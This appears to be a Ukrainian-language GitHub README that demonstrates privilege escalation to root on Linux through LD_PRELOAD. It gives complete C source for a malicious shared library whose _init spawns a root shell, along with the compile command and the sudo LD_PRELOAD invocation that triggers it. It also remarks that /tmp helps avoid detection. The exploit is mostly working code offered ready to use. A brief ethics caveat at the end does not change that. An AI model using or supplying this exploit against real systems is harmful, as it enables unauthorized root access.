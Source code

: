 
<h2>Опис</h2>
<p>Цей репозиторій демонструє експлойт ескалації прав за допомогою змінної <code>LD_PRELOAD</code>. Створюючи спеціальну загальну бібліотеку, ми можемо впровадити її в програму та ескалювати привілеї, наприклад, для запуску довільних команд з правами root.</p>
<p><code>LD_PRELOAD</code> — це змінна середовища, яка використовується для попереднього завантаження загальних бібліотек у програму або скрипт перед її виконанням. Це дозволяє замінити функції за замовчуванням програми, що дає змогу маніпулювати її поведінкою.</p>

<h2>Пояснення</h2>
    <p>Ми створимо загальну бібліотеку, яку можна буде завантажити в програму за допомогою <code>LD_PRELOAD</code>, що дозволить нам ескалувати привілеї програми до прав root. Ключова ідея — використання змінної <code>LD_PRELOAD</code> для попереднього завантаження шкідливої бібліотеки перед виконанням цільової програми.</p>


<h3>Кроки реалізації</h3>
<ol>
<li><strong>Створення бібліотеки-експлойту:</strong> Спершу ми напишемо програму на C (файл <code>shell.c</code>), яку скомпілюємо в загальний об'єкт (файл <code>shell.so</code>). Ця бібліотека виконає ескалацію привілеїв, запустивши оболонку з правами root.</li>
</ol> 

<pre><code>#include &lt;stdio.h&gt;
     #include &lt;sys/types.h&gt;
#include &lt;stdlib.h&gt;

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}</code></pre>

    
<p>У цьому коді:</p>
    <ul>
        <li><code>setgid(0)</code> і <code>setuid(0)</code> встановлюють GID  та UID на <code>0</code>, що відповідає користувачу root.</li>
        <li><code>system("/bin/sh")</code> запускає оболонку з правами root.</li>
    </ul>

<ol start="2">
        <li><strong>Компиляція бібліотеки:</strong> Після написання коду потрібно скомпілювати його в загальний об'єкт за допомогою наступної команди:</li>
    </ol>
    <pre><code>gcc -fPIC -shared -o shell.so shell.c -nostartfiles</code></pre>

<p>Це створить файл <code>shell.so</code>, який є загальним об'єктом, що може бути завантажений в інші програми за допомогою <code>LD_PRELOAD</code>.</p>

<ol start="3">
        <li><strong>Встановлення змінної LD_PRELOAD:</strong> Щоб скористатися вразливістю програми, потрібно встановити змінну середовища <code>LD_PRELOAD</code> на шлях до нашої шкідливої бібліотеки. Припустимо, що об'єкт зберігається в <code>/tmp</code> для зручності доступу.</li>
    </ol>
    <pre><code>sudo LD_PRELOAD=/tmp/shell.so ping</code></pre>

<p>Ця команда змушує програму <code>ping</code> завантажити нашу шкідливу бібліотеку перед її виконанням. В результаті, при запуску програми <code>ping</code>, вона отримає права root і відкриє оболонку.</p>

<h2>Важливі зауваження</h2>
    <ul>
        <li><strong>Місце зберігання об'єкта:</strong> Шкідлива бібліотека (<code>shell.so</code>) не обов'язково повинна знаходитися в <code>/tmp</code>, але це зручне місце для уникнення виявлення.</li>
        <li><strong>Цільова програма:</strong> У цьому прикладі ми використовуємо програму <code>ping</code> як ціль. Однак цей метод можна застосувати до будь-якої програми, яка динамічно завантажує бібліотеки.</li>
        <li><strong>Безпекові наслідки:</strong> Використання <code>LD_PRELOAD</code> таким чином може бути використано для ескалації прав, що є суттєвою загрозою для безпеки. Переконайтеся, що ви розумієте юридичні та етичні наслідки використання цього експлойту.</li>
    </ul>

h2>Приклад використання</h2>
    <pre><code>gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so ping</code></pre>

    
<p>Це дозволить ескалувати привілеї і запустити оболонку з правами root.</p>

<h2>Висновок</h2>
<p>Цей приклад демонструє, як можна використовувати <code>LD_PRELOAD</code> для ескалації прав. Хоча цей метод є потужним, важливо розуміти його потенціал для шкідливого використання. Системи повинні бути налаштовані для мінімізації таких ризиків, забезпечуючи належну безпеку та захист від експлойтів типу <code>LD_PRELOAD</code>.</p>
